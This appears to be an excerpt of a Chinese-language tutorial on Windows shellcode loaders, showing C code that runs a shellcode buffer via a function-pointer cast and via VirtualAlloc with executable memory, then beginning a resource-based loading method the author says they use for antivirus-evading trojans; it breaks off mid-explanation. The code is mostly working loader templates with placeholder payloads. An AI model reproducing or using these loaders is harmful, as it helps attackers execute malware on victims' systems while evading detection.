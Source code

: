 #### 1、指针执行

```php
#include <Windows.h>
#include <stdio.h>

unsigned char shellcodeloader[] ="shellcode";

int main()
{
    ((void(*)(void)) & shellcodeloader)();
}
```

#### 2.申请内存执行

```php
#include <Windows.h>
#include <stdio.h>

int main()
{
    char shellcode[] = "shellcode";
    void* run = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //使用 VirtualAlloc申请一块可读可写可执行的内存(PAGE_EXECUTE_READWRITE)
    memcpy(run, shellcode, sizeof shellcode);
    //使用memcopy将shellcode拷贝到刚刚申请的内存中
    ((void(*)())run)();
}
```

#### 3.资源加载shellcode

这也是我木马免杀的执行方式

先补充一些前置知识需要学习3个函数

**1、FindResource：该函数确定指定模块中指定类型和名称的资源所在位置。**

```php
HRSRC FindResource(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```

- hModule：处理包含资源的可执行文件的模块。NULL值则指定模块句柄指向操作系统通常情况下创建最近过程的相关位图文件。
- lpName：指定资源名称。若想了解更多的信息，请参见注意部分。
- lpType：指定资源类

```php
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"calc_bin");
```

- MAKEINTRESOURCE将一个整数值转换为一种资源类型

